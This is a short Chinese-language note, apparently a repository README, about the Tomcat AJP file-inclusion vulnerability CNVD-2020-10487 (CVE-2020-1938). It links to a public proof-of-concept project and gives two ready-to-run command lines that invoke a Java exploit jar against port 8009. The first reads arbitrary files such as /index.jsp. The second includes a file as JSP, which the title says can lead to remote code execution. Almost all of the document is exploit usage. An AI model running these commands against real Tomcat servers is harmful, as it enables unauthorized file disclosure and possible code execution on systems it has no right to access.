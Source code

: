 Tomcat被曝出文件包含漏洞或导致RCE  

2020.02.21-CNVD-2020-10487-Tomcat-Ajp-lfi  

现在有两个poc  
1.参考链接（https://github.com/0nise/CVE-2020-1938）

任意文件读取  
```java -jar 1.jar com.threedr3am.bug.tomcat.ajp.FileRead 127.0.0.1 8009 file /index.jsp```  
文件包含  
```java -jar 1.jar com.threedr3am.bug.tomcat.ajp.FileRead 127.0.0.1 8009 jsp /index.jsp```  
